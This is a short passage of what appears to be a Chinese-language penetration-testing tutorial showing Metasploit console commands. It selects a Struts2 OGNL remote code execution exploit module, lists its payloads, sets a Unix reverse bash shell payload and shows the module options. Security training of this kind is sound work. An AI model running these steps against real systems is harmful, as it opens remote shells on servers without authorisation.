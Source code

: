 ![info-1](img/info-1.png)

- 使用我们要找的 exp 后，查看该 exp 提供的`payloads`，并选择合适的 exp payload 使用。

```
# 使用上述 exp
use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
show payloads
```

![show-payloads](img/show-payloads.png)

```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 查看 exp 可配置参数列表
show options
```
